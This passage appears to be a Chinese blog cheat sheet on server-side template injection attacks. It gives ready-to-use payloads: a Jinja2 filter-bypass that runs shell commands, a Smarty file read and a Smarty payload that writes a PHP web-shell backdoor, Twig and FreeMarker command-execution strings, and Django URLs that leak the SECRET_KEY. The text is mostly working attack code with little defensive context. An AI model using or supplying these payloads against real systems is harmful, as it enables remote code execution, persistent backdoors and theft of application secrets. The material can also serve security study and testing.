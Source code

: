 关于绕过，如果禁用了_globlas_

可以采用拼接绕过或者切片绕过：

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__['__glo'+'bals__']['__builtins__']['__imp'+'ort__']('o'+'s').popen('ls').read() }}{% endif %}{% endfor %}
```



### **最全总结：**

找到模板注入主要从三个方向进行攻击

(1)模板本身
(2)框架本身
(3)语言本身

**1.模板本身；**

**（1）Smarty**

[payload](https://so.csdn.net/so/search?q=payload&spm=1001.2101.3001.7020)

打开文件**：**

```css
{self::getStreamVariable("file:///proc/self/loginuid")}
```

 写后门：

```cobol
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

**（2）Twig**

payload：其中id是命令；

```handlebars
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

 **（3）freeMarker**

```cobol
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

**2.利用框架本身的特性进行攻击**

 **1）.Django**

```cobol
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```
